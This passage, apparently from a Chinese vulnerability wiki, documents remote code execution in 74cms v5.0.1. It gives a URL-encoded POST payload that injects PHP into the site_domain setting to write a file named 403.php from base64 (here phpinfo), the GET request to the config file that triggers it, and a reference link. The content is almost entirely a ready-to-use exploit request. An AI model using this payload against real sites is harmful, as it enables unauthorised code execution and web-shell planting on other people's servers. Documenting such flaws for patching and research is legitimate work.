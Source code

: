     site_name=%E9%AA%91%E5%A3%AB%E4%BA%BA%E6%89%8D%E7%B3%BB%E7%BB%9F&site_domain='%2C+file_put_contents('403.php'%2Cbase64_decode('PD9waHAgcGhwaW5mbygpOz8%2B'))%2C'&site_dir=%2F74cms%2F&top_tel=000-00000000&bootom_tel=000-00000000&contact_email=&address=00%E7%9C%8100%E5%B8%8200%E8%B7%AF00%E5%8F%B70%E5%A4%A7%E5%8E%A600%E6%A5%BC&bottom_other=Copyright+%C2%A9+2019+74cms.com+All+Right+Reserved+&icp=icp000000000&isclose=0&close_reason=&statistics=&logo_home=&logo_other=
    GET /74cms/Application/Common/Conf/url.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0

成功截图

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv5.0.1远程执行代码/media/rId27.png)

四、参考链接
------------

> https://github.com/kyrie403/Vuln/blob/master/74cms/74cms%20v5.0.1%20remote%20code%20execution.md
